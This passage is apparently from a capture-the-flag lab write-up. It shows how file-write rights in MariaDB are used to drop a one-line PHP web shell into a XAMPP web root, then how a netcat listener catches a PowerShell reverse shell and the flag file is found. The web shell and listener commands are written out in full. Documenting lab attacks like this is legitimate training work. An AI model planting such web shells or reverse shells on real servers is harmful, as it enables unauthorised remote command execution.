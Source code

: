If you check you will find that the user can use `outfile()`. so let's proceed to create a simple webshell and save it in the root directory of the XAMPP server.

{% code fullWidth="true" %}
```
MariaDB [(none)]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php";
```
{% endcode %}

So, if we need to verify whether that file has been created or not

{% code fullWidth="true" %}
```
MariaDB [(none)]> SELECT LOAD_FILE("C:\\xampp\\htdocs\\backdoor.php");
+----------------------------------------------+
| LOAD_FILE("C:\\xampp\\htdocs\\backdoor.php") |
+----------------------------------------------+
| <?php system($_GET['cmd']); ?>
              |
+----------------------------------------------+
1 row in set (0.051 sec)
```
{% endcode %}

Now, we can read the flag by visiting the path of our web shell but if we focus to obtain a shell on that server, let's generate a PowerShell shell.

![](https://www.hack-notes.pro/~gitbook/image?url=https%3A%2F%2F1785929618-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FAXymzcH5Nj1Px2RyBUvX%252Fuploads%252FqItxuHKzsso2H6c9HO6v%252FScreenshot%25202024-03-27%2520225100.png%3Falt%3Dmedia%26token%3Db5baf7f9-9328-408e-a9dd-3a953e4bb84a\&width=768\&dpr=4\&quality=100\&sign=68f7c352\&sv=2)

and we need to start a listener

```
rlwrap nc -lnvp 4444
```

To trigger our shell and obtain the shell, we can navigate to the path where it is located which is in the root directory

![](https://www.hack-notes.pro/~gitbook/image?url=https%3A%2F%2F1785929618-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FAXymzcH5Nj1Px2RyBUvX%252Fuploads%252FjOU0wGFbcuJ7bINxRfmW%252FPasted%2520image%252020240403113000.png%3Falt%3Dmedia%26token%3D04bbe11d-d5ae-4db9-8546-c769c6e62b7f\&width=768\&dpr=4\&quality=100\&sign=a27a0ef2\&sv=2)

getting shell

![](https://www.hack-notes.pro/~gitbook/image?url=https%3A%2F%2F1785929618-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FAXymzcH5Nj1Px2RyBUvX%252Fuploads%252FpPhssgcgJDDVnybNWebW%252FPasted%2520image%252020240403113024.png%3Falt%3Dmedia%26token%3D7d4998e6-a009-4f68-b37d-aed1b832632a\&width=768\&dpr=4\&quality=100\&sign=4f0742b\&sv=2)

get the flag

{% code fullWidth="true" %}
```
PS C:\xampp> Get-ChildItem -Path c:\ -Filter "flag.txt" -Recurse


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/22/2022  10:36 AM             39 flag.txt
```
{% endcode %}
